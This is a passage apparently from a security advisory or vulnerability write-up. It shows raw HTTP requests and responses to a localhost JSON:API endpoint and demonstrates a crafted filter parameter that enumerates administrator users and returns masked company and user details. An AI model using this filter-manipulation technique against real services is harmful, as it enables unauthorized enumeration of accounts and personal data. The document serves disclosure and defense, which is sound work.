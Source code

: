 ```
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
```### Response
```
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 19:13:08 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 11
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": []
}
```
```
Using certain operators we could enumerate administrator users:
### Request
```
GET /api/companyUsers?include=role&filter[companyUsers]=user.id=='94****************************' HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJh.....
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
```### Response
```
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 19:13:45 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 361
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": [{
        "type": "CompanyUserGetResponseDTO",
        "attributes": {
            "companyId": "FA**************",
            "companyTaxIdentifier": "B999*******",
            "bizName": "company sl",
            "email": "jose*******@domain.local",
            "userRole": {
                "userRoleId": 1,
                "userRoleKey": "general.roles.admin"
            },
            "companyCountryTranslationKey": "*******",
            "type": "CompanyUserGetResponseDTO"
